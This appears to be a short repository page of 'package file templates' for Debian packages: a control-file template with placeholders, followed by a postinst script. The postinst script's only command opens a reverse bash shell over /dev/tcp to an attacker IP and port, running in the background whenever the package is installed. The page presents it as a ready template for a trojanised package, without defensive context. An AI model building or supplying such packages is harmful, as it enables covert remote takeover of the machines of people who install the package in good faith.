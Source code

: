 # Package File Templates

## DEB

The `control` text file.

```
Package: <package_name>
Architecture: <i386 | amd64>
Version: <version>
Priority: <required | optional>
Section: <utils | universe/games>
Origin: <Debian | Ubuntu>
Maintainer: <maintainer_name> <username@email.com>
Original-Maintainer: <maintainer_name> <username@email.com>
Description: <short_description>
<long_description>
```

The post-installation script (`postinst`).

```
#!/bin/sh
bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1' &
```